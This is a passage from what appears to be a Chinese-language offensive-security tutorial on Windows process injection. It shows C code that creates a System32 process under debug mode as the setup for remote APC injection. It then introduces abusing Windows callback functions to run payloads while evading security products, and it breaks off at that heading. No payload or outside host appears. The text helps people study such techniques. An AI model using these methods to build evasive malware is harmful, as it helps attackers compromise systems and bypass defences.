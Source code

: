 - hProcess- 指向将接收新创建进程句柄的句柄的指针。  
  
- hThread- 指向将接收新创建进程的线程的 HANDLE 的指针。  
  
```
BOOL RemoteAPCinject(LPCSTR lpProcessName, DWORD* dwProcessId, HANDLE* hPr
ocess, HANDLE* hThread) {
CHAR lpPath [MAX_PATH * 2];
CHAR WnDr [MAX_PATH];
STARTUPINFO Si = { 0 };
PROCESS_INFORMATION Pi = { 0 };
RtlSecureZeroMemory(&Si, sizeof(STARTUPINFO));
RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));
Si.cb = sizeof(STARTUPINFO);
if (!GetEnvironmentVariableA("WINDIR", WnDr, MAX_PATH)) {
printf("[!] GetEnvironmentVariableA Failed With Error : %d \n", GetLas
tError());
return FALSE;
}
sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);
printf("\n\t[i] Running : \"%s\" ... ", lpPath);
// Creating the process
if (!CreateProcessA(
NULL,
lpPath,
NULL,
NULL,
FALSE,
DEBUG_PROCESS, // Instead of CREATE_SUSPENDED
NULL,
NULL,
&Si,
&Pi)) {
return FALSE;
}
// Filling up the OUTPUT parameter with CreateProcessA's output
*dwProcessId = Pi.dwProcessId;
*hProcess = Pi.hProcess;
*hThread = Pi.hThread;
if (*dwProcessId != NULL && *hProcess != NULL && *hThread != NULL)
return TRUE;
return FALSE;
}
```  
  
freebuf的编辑体验不太好，吞了代码缩进，读者复现的时候自己注意一下缩进问题，或者你把代码给gpt让他改一下缩进  
  
## 回调函数完成代码执⾏  
  
回调函数⽤于处理事件或在满⾜条件时执⾏操作。它们⽤于 Windows 操作系统中的各种场景，包括事件处理、窗⼝管理和多线程。Microsoft 对回调函数的定义如下：  
  
回调函数是托管应⽤程序中的代码，可帮助⾮托管 DLL 函数完成任务。对回调函数的调⽤从托管应⽤程序间接传递，通过 DLL 函数，再返回到托管实现。  
  
⼀些普通的 Windows API 具有使⽤回调执⾏有效负载的能⼒。使⽤它们可以对抗安全解决⽅案，因为这些函数可能看起来是良性的，并且可以潜在地逃避⼀些安全解决⽅案。  
### 滥⽤回调函数  
  